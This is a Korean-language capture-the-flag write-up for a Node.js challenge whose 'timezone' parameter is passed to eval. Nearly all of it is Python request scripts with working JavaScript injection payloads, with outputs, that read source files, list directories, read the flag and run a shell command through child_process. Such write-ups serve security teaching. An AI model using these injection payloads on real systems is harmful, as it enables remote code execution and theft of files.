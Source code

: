 본인 서버를 `server`에 넣고 위처럼 리퀘스트를 보내고 들어온 데이터를 확인한다.

```json
{
	"command": "timeOffset = 0;"
}
```

`command`로 들어온 문자열이 `eval`로 실행되는 듯하다.

`timezone`에 `0;`등의 값을 넣어 보았는데도 문제가 없다(단, 유효하지 않은 코드를 보내면 Internal Server Error가 뜬다).

이를 통해서 Command Injection 취약점이 발생한다는 것을 알 수 있다.

`timezone`을 아래와 같은 코드로 수정하자, `index.js` 파일 내용을 구할 수 있었다.

`try`, `catch` 문을 이용해서 발생하는 에러 역시 전송되게 했다.

```py
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{fs=require('fs');res.send(fs.readFileSync(__filename))}catch(e){res.send(e.message)}"
})
print(r.text)
```

같은 방법으로 현재 디렉토리(`__dirname`)에 있는 파일 리스트를 확인(`fs.readdirSync`)하고 플래그 파일의 위치를 찾아 내용을 출력하게 할 수 있을 것이다.

```py
# 현재 폴더 경로를 구한다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{res.send(__dirname)}catch(e){res.send(e.message)}"
})
print(r.text)
# /opt/simplemvc

# 현재 폴더 내용을 읽는다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{fs=require('fs');res.send(fs.readdirSync(__dirname))}catch(e){res.send(e.message)}"
})
print(r.text)
# flag,index.js,node_modules,package-lock.json,package.json

# 플래그 파일을 읽는다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{fs=require('fs');res.send(fs.readFileSync(__dirname + '/flag'))}catch(e){res.send(e.message)}"
})
print(r.text)
# A0V3R{eval_is_s00000_evil, and devonnuri is handsome guy}

# 이렇게 명령어 실행이 가능하다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': """0;try{const { execSync } = require('child_process');res.send(execSync('id'))}catch(e){res.send(e.message)}"""
})
print(r.text)
# uid=1000(simplemvc) gid=1000(simplemvc) groups=1000(simplemvc)
```